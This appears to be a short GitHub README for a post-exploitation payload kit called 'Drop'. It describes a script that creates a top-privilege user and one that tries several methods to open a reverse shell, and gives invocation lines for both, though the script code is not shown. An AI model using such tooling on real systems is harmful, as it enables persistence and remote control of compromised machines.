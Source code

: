 # Drop

## Purpose
These files are payloads, I just use them to make post a little bit easier.

## Use
*user.sh*

Creates highest priv user possible.
Example:
```
bash user.sh USERNAME PASSWORD
```

*rev.sh*

Attempts to make a reverse shell using multiple methods
Example:
```
bash rev.sh IP PORT
```

